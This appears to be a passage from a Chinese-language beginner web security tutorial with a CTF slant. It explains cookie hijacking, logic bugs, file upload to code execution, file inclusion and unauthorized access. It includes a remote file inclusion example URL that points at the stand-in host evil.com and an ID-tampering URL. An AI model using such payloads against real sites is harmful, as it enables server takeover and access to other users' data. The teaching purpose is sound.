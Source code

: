     // 关闭数据库连接
    $conn->close();
    ?>
    ```

### SQL 简单入门

入门可以从 MySQL 开始。

### 相关安全话题

- Cookie 与 Session
    - **Cookie**：存储在客户端的小型文本文件，通常用于存储用户的偏好设置、身份验证信息等。
        - **示例**：用户登录后，服务器发送一个包含用户ID的Cookie到客户端，客户端在后续请求中自动包含该Cookie，以便服务器识别用户。
        - **Cookie劫持**：攻击者通过XSS攻击或其他手段获取用户的Cookie，从而冒充用户身份。
    - **Session**：存储在服务器端的临时数据存储区域，通常用于存储用户的会话状态信息。
        - **示例**：用户登录后，服务器创建一个Session，并将Session ID通过Cookie发送给客户端。客户端在后续请求中包含该Session ID，服务器根据Session ID查找对应的Session数据。
        - 如果服务器被攻破，Session中就可能有一些敏感信息。
- 逻辑漏洞：验证不充分、想当然的写法、条件竞争、未发现的旁门左道……
    - 程序员的傲慢可能会让他认为`a==1&&a==2` 一定是 false 但……

![Untitled](./img/1.png)

- 任意文件读与任意代码执行
    - 例如一个Web应用允许用户上传头像，但未对上传的文件进行严格的类型和内容检查。攻击者上传一个包含恶意代码的文件，并通过文件包含漏洞执行该代码，从而控制服务器。
    - CTF竞赛中，能读服务器上 `/flag` 则读，否则就暗示我们需要 RCE (不然连 flag 在哪个文件都不知道).
- 文件包含：例如一个Web应用允许用户通过URL参数指定要包含的文件，如`index.php?page=about`。攻击者可以通过构造恶意URL，如`index.php?page=http://evil.com/malicious.php`，包含远程恶意文件，从而执行恶意代码。
- 越权：例如一个Web应用允许用户查看自己的订单信息，但未正确验证用户的身份。攻击者可以通过篡改URL参数，如`order.php?id=123`，查看其他用户的订单信息。
    - 永远不要相信用户的数据！前端代码也许永远不会访问其他用户的数据，但这不代表恶意攻击者就不会


### 前端：可视化与操作逻辑

前端开发主要关注用户界面的设计和用户交互。在这一部分，我们将学习HTML、CSS和JavaScript的基础知识，以及前端安全的重要性和常见的防护措施。同时，我们会通过经典案例分析前端漏洞的利用方法和防护策略。

- HTML / CSS / JS基础
    - HTML 简单介绍
        - 格式：各个标签嵌套的层级结构，每个标签基本上就对应页面上的一个元素
